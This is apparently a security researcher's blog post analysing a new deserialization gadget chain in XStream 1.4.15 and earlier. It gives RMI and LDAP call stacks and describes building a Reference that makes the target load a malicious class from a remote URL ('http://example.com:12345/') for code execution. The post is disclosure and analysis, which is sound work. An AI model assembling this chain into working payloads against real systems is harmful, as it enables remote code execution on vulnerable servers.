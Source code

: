 ```yaml
---
title: XStream <=1.4.15 Deserialization JNDI Injection
description: I found a chain a year ago, but the repair of several chains and I find the sink point and trigger toString point are different, this should be considered a new CVE, here to share out.
categories:
 - Vulnerability Analysis
tags:
 - XStream
 - Vulnerability Analysis
 - RCE
---
```



### *Screenshot of the proof of vulnerability recurrence*

![image.png]({{site.url}}/upload/2021-03-19-Stream-Deserialization-JNDI-Injection/5eEulOMzcxQqsX8.png)

#### *Scope of Impact*

XStream<=1.4.15

#### *Vulnerability Analysis*

I found a chain a year ago, but the repair of several chains and I find the sink point and trigger toString point are different, this should be considered a new CVE, here to share out.

Review the call stack of CVE-2020-26217

```java
com.thoughtworks.xstream.converters.collections.MapConverter#putCurrentEntryIntoMap
  java.util.HashMap#put
    java.util.HashMap#hash
      jdk.nashorn.internal.objects.NativeString#hashCode                
        com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data#toString                
          com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data#get                    
            com.sun.xml.internal.bind.v2.util.ByteArrayOutputStreamEx#readFrom                        
              java.io.SequenceInputStream#read(byte[], int, int)                        
                java.io.SequenceInputStream#nextStream                            
                  javax.swing.MultiUIDefaults.MultiUIDefaultsEnumerator#nextElement                                
                    javax.imageio.spi.FilterIterator#next                                
                      javax.imageio.spi.FilterIterator#advance                                    
                        javax.imageio.ImageIO.ContainsFilter#filter
                          java.lang.ProcessBuilder#start
```

The entry of `hashcode()->toString()` of `jdk.nashorn.internal.objects.NativeString` and the sink point `javax.imageio.ImageIO$ContainsFilter` are added to the blacklist.

But we can reuse `java.io.SequenceInputStream#nextStream` to find the new sink point.

![image.png]({{site.url}}/upload/2021-03-19-Stream-Deserialization-JNDI-Injection/4nF8ySVZBGHtaJU.png)

#### *RMI*

`com.sun.jndi.rmi.registry.BindingEnumeration`

![image.png]({{site.url}}/upload/2021-03-19-Stream-Deserialization-JNDI-Injection/VF52hkdfuHWqjwR.png)

Both `ctx` and `var2` are under our control, so JNDI injection is possible here. However, `ctx` is of type `com.sun.jndi.rmi.registry.RegistryContext`, so we can only hit rmi's JNDI injection.

#### *LDAP*

`com.sun.jndi.ldap.LdapBindingEnumeration#createItem`

![image.png]({{site.url}}/upload/2021-03-19-Stream-Deserialization-JNDI-Injection/cjvrhGMS8yfUw21.png)

`DirectoryManager.getObjectInstance` can load malicious classes by passing in `Reference` objects. `var6`, `this.homeCtx, this.homeCtx.envprops, var2` we can control, backtrack a bit to `var4`.

![image.png]({{site.url}}/upload/2021-03-19-Stream-Deserialization-JNDI-Injection/QI3ZCTUpL7Jh6eF.png)

Following up on `decodeReference`, since var0 in `decodeObject` is under our control, we can finally get the code into the `decodeReference` method, and all the parameters of `new Reference` are under our control, constructing new Reference(`" refClassName", "factoryClassName", "http://example.com:12345/"`) passed into `DirectoryManager.getObjectInstance` to load `http://example.com: 12345/` on the class named `factoryClassName.class,` the malicious code into the static code block can be arbitrary code `execution`.

![image.png]({{site.url}}/upload/2021-03-19-Stream-Deserialization-JNDI-Injection/rViMpc3ZqhWEwRT.png)

`com.sun.jndi.ldap.LdapBindingEnumeration` directly to `this.data` is not null, so I used `com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl` to indirectly call the `LdapBindingEnumeration#next` method.

![image.png]({{site.url}}/upload/2021-03-19-Stream-Deserialization-JNDI-Injection/SF3YztL1oMag2P9.png)

#### *Trigger toString()*

Then there is the `toString` entry, and after looking around all the classes for the `hashcode()` method there is no class that can trigger `toString`, as `SerializableConverter` supports calling the `readObject` method, provided the class implements the `java.io. Serializable` interface (properties of classes that do not implement it can still be assigned normally) and are not caught by the previous converter, so we can look for `readObject` methods of all classes.

![image.png]({{site.url}}/upload/2021-03-19-Stream-Deserialization-JNDI-Injection/9IurUOHykd1TGwB.png)

The more common ones are `javax.management.BadAttributeValueExpException#readObject`, but this class inherits from `Throwable` and will be restocked by the `ThrowableConverter` and cannot be `SerializableConverter` to parse.

![image.png]({{site.url}}/upload/2021-03-19-Stream-Deserialization-JNDI-Injection/gXzMPoJc8OneqNm.png)

So we need to find a new class, I found a chain that can be used for Java native deserialization to trigger `toString()`, here is not public, here are a few public CVEs used in the `toString` chain.

```java
java.util.PriorityQueue#readObject        
->java.util.PriorityQueue#heapify                
->java.util.PriorityQueue#siftDown                        
->java.util.PriorityQueue#siftDownUsingComparator                              -
>javafx.collections.ObservableList#sorted()#compare()
```

![image.png]({{site.url}}/upload/2021-03-19-Stream-Deserialization-JNDI-Injection/5FWBEkZj8bSacAe.png)

However, this chain can only be used in XStream and not in Java native deserialization, because `javafx.collections.ObservableList`.



#### *Calling the stack*

RMI

```java
java.util.PriorityQueue#readObject    
java.util.PriorityQueue#heapify        
java.util.PriorityQueue#siftDown            
java.util.PriorityQueue#siftDownUsingComparator              
javafx.collections.ObservableList#sorted()#compare()                  
com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data#toString                  
com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data#get                  
com.sun.xml.internal.bind.v2.util.ByteArrayOutputStreamEx#readFrom                      
java.io.SequenceInputStream#read(byte[], int, int)                      
java.io.SequenceInputStream#nextStream                          
com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl#nextElement                              
com.sun.jndi.rmi.registry.BindingEnumeration#next                                  
RegistryContext.lookup
```

Ldap

```java
java.util.PriorityQueue#readObject    
java.util.PriorityQueue#heapify        
java.util.PriorityQueue#siftDown            
java.util.PriorityQueue#siftDownUsingComparator              
javafx.collections.ObservableList#sorted()#compare()                  
com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data#toString                  
com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data#get                  
com.sun.xml.internal.bind.v2.util.ByteArrayOutputStreamEx#readFrom                     
java.io.SequenceInputStream#read(byte[], int, int)                     
java.io.SequenceInputStream#nextStream                         
com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl#nextElement                             
com.sun.jndi.ldap.AbstractLdapNamingEnumeration#next                                 
com.sun.jndi.ldap.LdapBindingEnumeration#createItem                                     
javax.naming.spi.DirectoryManager#getObjectInstance
```



#### *Author*

> *Smi1e@*WEBIN.LAB \- DBAPPSecurity

#### *Topic*

#XStream  #RCE #JNDI #Deserialization
